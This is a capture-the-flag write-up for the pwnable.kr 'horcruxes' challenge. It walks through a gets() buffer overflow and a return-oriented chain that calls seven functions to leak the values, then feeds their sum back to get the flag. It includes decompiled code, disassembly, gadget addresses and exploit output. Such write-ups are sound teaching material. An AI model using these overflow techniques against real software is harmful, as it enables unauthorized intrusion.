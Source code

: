 # pwnable.kr -- Toddler's Bottle -- horcruxes

## 1. Challenge

```
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)
```

## 2. Solution

Log in via SSH and you will see two files: `horcruxes` and `readme`. `readme` is a text file and it says:

```
horcruxes@ubuntu:~$ cat readme
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.

horcruxes@ubuntu:~$
```

Fine. Let's download `horcruxes` and drop it into IDA. You can find that there are 7 random integers, `a`, `b`, `c`, ... `g`, generated and `sum` is set to the sum of these 7 integers in function `init_ABCDEFG()`. Because the seed of function `rand()` is set by 4 bytes read from `/dev/urandom`, we cannot hack it.

Now let's go to see function `ropme()`. 

```c
int ropme() {
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == a ) {
    A();
  }
  else if ( v2 == b ) {
    B();
  }
  else if ( v2 == c ) {
    C();
  }
  else if ( v2 == d ) {
    D();
  }
  else if ( v2 == e ) {
    E();
  }
  else if ( v2 == f ) {
    F();
  }
  else if ( v2 == g ) {
    G();
  } else {
    printf("How many EXP did you earned? : ");
    gets(s);
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

Apparently, function `gets()` is called which means that we can make a buffer overflow and overwrite return address. However, there are something we sould take care of:

1. Naturally we want to set return address to `0x080A010B` which is the start of `fd = open("flag", 0);`. But `0x080A010B` has a bad char `0x0A`, also `\n`, which will stop function `gets()` reading from stdin. So we cannot set return address to `0x080A010B`.

2. The code block we want to execute has the following assembly code:

   ```asm
   .text:080A010B                 sub     esp, 8
   .text:080A010E                 push    0               ; oflag
   .text:080A0110                 push    offset file     ; "flag"
   .text:080A0115                 call    _open
   .text:080A011A                 add     esp, 10h
   .text:080A011D                 mov     [ebp+fd], eax
   .text:080A0120                 sub     esp, 4
   .text:080A0123                 push    64h             ; nbytes
   .text:080A0125                 lea     eax, [ebp+s]
   .text:080A0128                 push    eax             ; buf
   .text:080A0129                 push    [ebp+fd]        ; fd
   .text:080A012C                 call    _read
   .text:080A0131                 add     esp, 10h
   .text:080A0134                 mov     [ebp+eax+s], 0
   .text:080A0139                 sub     esp, 0Ch
   .text:080A013C                 lea     eax, [ebp+s]
   .text:080A013F                 push    eax             ; s
   .text:080A0140                 call    _puts
   .text:080A0145                 add     esp, 10h
   .text:080A0148                 sub     esp, 0Ch
   .text:080A014B                 push    [ebp+fd]        ; fd
   .text:080A014E                 call    _close
   .text:080A0153                 add     esp, 10h
   .text:080A0156                 sub     esp, 0Ch
   .text:080A0159                 push    0               ; status
   .text:080A015B                 call    _exit
   ```

   Obviously we cannot set `ebp` whatever we want which will be affect during buffer overflow. Otherwise an access violation would occur.

I though it would be a hard challenge. But I found that all of function `A()`, `B()`, ... `G()` are located on addresses that have no bad char `\n`:

```
func_A_addr = 0x0809FE4B
func_B_addr = 0x0809FE6A
func_C_addr = 0x0809FE89
func_D_addr = 0x0809FEA8
func_E_addr = 0x0809FEC7
func_F_addr = 0x0809FEE6
func_G_addr = 0x0809FF05
```

So we can execute these functions one by one and get the values of `a`, `b`, `c`, `d`, `e`, `f` and `g`. After that, execute `ropme()` again and input the right sum to get flag.

```
horcruxes@ubuntu:/tmp/solve2$ python2 ./solve.py 
[+] Opening connection to localhost on port 9032: Done
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu: 1
How many EXP did you earned? :  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000\x00aaaK\xfe   j\xfe   \x89\xfe   \xa8\xfe   ��   ��  \x05\xff   ��   
You'd better get more experience to kill Voldemort
You found "Tom Riddle's Diary" (EXP +15452973)
You found "Marvolo Gaunt's Ring" (EXP +-1153331378)
You found "Helga Hufflepuff's Cup" (EXP +-1491435822)
You found "Salazar Slytherin's Locket" (EXP +129335114)
You found "Rowena Ravenclaw's Diadem" (EXP +-1692814741)
You found "Nagini the Snake" (EXP +-1940301612)
You found "Harry Potter" (EXP +94303011)

Select Menu: 1
How many EXP did you earned? :  -1743825159
xxxxxxxxxxxxxxxxxxxxxxxxxxxx!

[*] Closed connection to localhost port 9032
```
